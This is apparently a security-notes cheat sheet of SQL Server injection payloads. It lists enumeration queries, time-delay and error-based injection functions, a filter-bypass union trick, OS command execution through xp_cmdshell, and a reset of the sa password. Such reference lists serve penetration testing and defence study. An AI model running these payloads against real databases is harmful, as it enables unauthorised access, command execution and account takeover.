 SQL Server Payload
=====================================

常见Payload
----------------------------------------
- Version
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x01 - 0x20``
- Current User
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- List User
    - ``SELECT name FROM master..syslogins``
- Current Database
    - ``SELECT DB_NAME()``
- List Database
    - ``SELECT name FROM master..sysdatabases``
- 执行命令
    - ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
- Trick
    - ``id=1 union:select password from:user``
- 文件读取
    - OpenRowset
- 当前查询语句
    - ``select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle)``

错误注入常用函数
----------------------------------------
- SUSER_NAME()
- USER_NAME()
- PERMISSIONS()
- DB_NAME()
- FILE_NAME()
- TYPE_NAME()
- COL_NAME()
